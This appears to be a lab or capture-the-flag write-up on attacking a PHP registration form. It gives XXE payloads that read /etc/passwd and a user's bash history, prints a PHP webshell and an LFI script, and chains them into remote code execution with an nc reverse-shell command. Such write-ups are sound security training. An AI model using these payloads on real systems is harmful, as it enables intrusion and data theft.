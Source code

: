 # Web Exploit

- [Web Exploit](#web-exploit)
  - [reg.php](#regphp)
    - [Observation #1](#observation-1)
      - [Exploit](#exploit)

## reg.php

### Observation #1

![picture 11](images/1cd6786d49db82c3c2c8282e2f98bc80d69ec1459c9c5802b9cd3f480c895565.png)  


Enter some information and use Burp to intercept the request:

![picture 12](images/9317040eeed9a48ea64754ae7ab1e5f5b95b877bd50bbb48126ee26b172eb7f7.png)  


The form is in XML format - could be tested against XXE injection.

<br/>

#### Exploit

Use Burp Repeater to inject a XXE payload, in attempt to dump `/etc/passwd` with the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<root><name>&xxe;</name><tel>12121212</tel><email>brain@brain.com</email><password>brainyou</password></root>
```

![picture 13](images/31bad52ea97bee2955a71ad10c1f2a657d8583c19fc1104b3eb007f85cddd2bf.png)  


As shown, the content of `/etc/passwd` was dumped in the HTTP response.
- The dump shows `iyer` is a user on the web server

<br/>

Try to dump the iver's `bash_history`:
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/iyer/.bash_history"> ]>

<root><name>&xxe;</name><tel>12121212</tel><email>brain@brain.com</email><password>brainyou</password></root>
```

![picture 14](images/15dbf7b0245a3d1414e1243e903700eb94e27bfd8ff89c2274108bffc9ddbead.png)  

The bash history revealed two interesting files:
- `/var/www/html/Nuclear-Administrator.php`
- `/var/www/Remote-Administration.php`

However, `Remote-Administration.php` cannot be inspected:

![picture 15](images/63743a011d9db7c4a4374574f3937be43da9ea1cc84469fc34c2d13f7b71a3d4.png)  


<br/>

Since the web application is PHP-based, try to extract using PHP filter:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/Remote-Administration.php"> ]>
```

Select the base64 content and press `Ctrl-Shift-B` to decode:

![picture 16](images/432b2a468475ed90988f34fbee5483a26da2f4f3c3b7edf2e37d6334616292f9.png)  


The source code:
```
<?php
echo system($_GET['cmd']);
?>

<html>
<head><title>Remote Access</title></head>
<body>
<h1> Remote Access System</h1>
</body>
</html>
```
It appears that `Remote-Administrator.php` is a simple webshell.

Also inspect `/var/www/html/Nuclear-Administrator.php`:

![picture 17](images/425d88ebe03b628a07f3b37b2e2c0bb1411cbaa75f8d0421af8292ce441d13fd.png)  


The source code:
```
<?php
$file = $_GET['page'];
if(isset($file))
{
include("$file");
}
else
{
include("index.html");
}
?>
```

It shows that the parameter `page` is vulnerable to LFI.

Chaining the LFI vulnerability and webshell found, RCE can be achieved.

Payload:
```
GET /Nuclear-Administrator.php?page=/var/www/Remote-Administration.php&cmd=id
```

![picture 18](images/75049d82e1644820d249d98e059fe1fb2e890402790394f179e731b990b2a80b.png)  

Launch a netcat listner:
```
nc -nlvp 443
```

To get a reverse shell, use the following payload via Burp:

```
/Nuclear-Administrator.php?page=/var/www/Remote-Administration.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.100.11+443+>/tmp/f
```

![picture 19](images/ca2a70f6e2010d56fa6584d1374bf151b44e9f77627fe9b2870c980f065e47ad.png)  

A reverse shell calls back to the netcat listener:

![picture 20](images/8df84b419de72b1f981dbd91670ce01163373f2c12b42a380264ba28cc03752f.png)  

